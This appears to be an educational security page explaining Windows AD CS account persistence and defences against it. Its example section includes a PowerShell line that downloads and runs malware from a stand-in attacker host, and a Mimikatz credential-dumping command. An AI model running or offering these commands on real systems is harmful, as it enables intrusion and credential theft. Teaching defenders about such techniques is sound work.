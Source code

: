 # Windows AD CS Account Persistence


# 👉 Overview

---

### 👀 What ?

Windows AD CS Account Persistence is a technique where an attacker gains persistence in a network through the Active Directory Certificate Services (AD CS). AD CS is a Windows Server role that allows organizations to create and manage public key certificates used in software security systems that employ public key technologies. When improperly configured, an attacker with sufficient privileges can abuse this service to generate certificates, impersonating any user and gaining control over the network.


### 🧐 Why ?

Understanding Windows AD CS Account Persistence is crucial for both IT administrators and cybersecurity professionals. For IT administrators, understanding this technique can help them configure the AD CS properly, reducing the risk of an attacker gaining persistence in the network. For cybersecurity professionals, understanding this technique can help them detect and respond to such attacks more effectively. Additionally, as Active Directory is widely used in business environments, this technique is particularly relevant to those working in or with corporate networks.


### ⛏️ How ?

To implement Windows AD CS Account Persistence, an attacker would first need to gain initial access to the network, likely through another attack vector. Once they have sufficient privileges, they can abuse the AD CS to generate a certificate for any user in the network. This certificate can then be used to authenticate as that user, giving the attacker their privileges. To protect against this, IT administrators should ensure that only trusted, necessary users have the ability to generate certificates. Regular monitoring and auditing of certificate generation and usage can also help to detect any misuse.


### ⏳ When ?

The use of Windows AD CS Account Persistence has been seen in various real-world attacks, particularly those targeting large organizations. However, the concept of abusing certificate services for persistence is not a new one and has been a known risk in cybersecurity for many years.


# ⚙️ Technical Explanations

---

Windows AD CS Account Persistence is a technique involving the misuse of the Active Directory Certificate Services (AD CS) role in Windows Server. AD CS is a server role that allows organizations to create and manage public key certificates used in software security systems that employ public key technologies.

In this technique, an attacker who has gained sufficient privileges can abuse the service to generate certificates. These certificates can be generated for any user in the Active Directory through the use of the Certificate Authority (CA) and Certificate Templates. The CA is a trusted entity that issues digital certificates, which certify the ownership of a public key by the named subject of the certificate. Certificate Templates define the format and content of a certificate based on its intended usage.

The attacker can then impersonate another user by using the generated certificate to authenticate as that user, therefore gaining their privileges. This process allows the attacker to maintain a persistent presence in the network, which can be very challenging to detect and remove.

To protect against this, IT administrators need to ensure proper configuration of the AD CS. This includes limiting the ability of users to generate certificates to only those who are trusted and require this capability for their role. Furthermore, it is necessary to regularly monitor and audit certificate generation and usage to detect any potential misuse. Regularly updating and patching the Windows Server can also help to prevent known vulnerabilities from being exploited.

Understanding this technique is crucial for IT administrators and cybersecurity professionals. For IT administrators, it can help them properly configure the AD CS to reduce the risk of an attacker gaining persistence in the network. For cybersecurity professionals, it can assist in detecting and responding to such attacks more effectively.

This technique has been observed in real-world attacks, particularly those targeting large organizations. However, the concept of abusing certificate services for persistence is not new and has been a known risk in cybersecurity for many years.

An example of Windows AD CS Account Persistence might look like the following:

1. **Initial Access**: An attacker gains access to a network, perhaps through a phishing attack targeting an employee's email account. The attacker might use a tool like PowerShell to execute their commands:
    
    ```powershell
    Invoke-WebRequest -Uri <http://attacker.com/malware.exe-OutFile C:\\temp\\malware.exe
    Start-Process "C:\\temp\\malware.exe"
    
    ```
    
    The above command downloads a malicious executable from the attacker's server and runs it.
    
2. **Privilege Escalation**: The attacker then needs to elevate their privileges. They might exploit a known vulnerability or use a tool like Mimikatz to extract credentials:
    
    ```powershell
    Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'
    
    ```
    
    This command dumps the credentials of logged-in users.
    
3. **AD CS Misuse**: Now with sufficient privileges, the attacker can create a certificate. They might use certreq, a command-line utility in Windows:
    
    ```powershell
    certreq -new request.inf certname.cer
    
    ```
    
    The above command generates a new certificate request based on the settings in the `request.inf` file and outputs the certificate to `certname.cer`.
    
4. **Persistence**: The attacker can now use the generated certificate to authenticate as another user, maintaining their presence in the network.

To defend against such an attack, IT administrators should:

- Limit certificate creation permissions to trusted users
- Regularly audit and monitor certificate creation and usage
- Patch Windows Servers regularly to prevent known vulnerabilities from being exploited

This is a simplified example. Real-world attacks can be much more complex, using a variety of tools and methods to avoid detection.
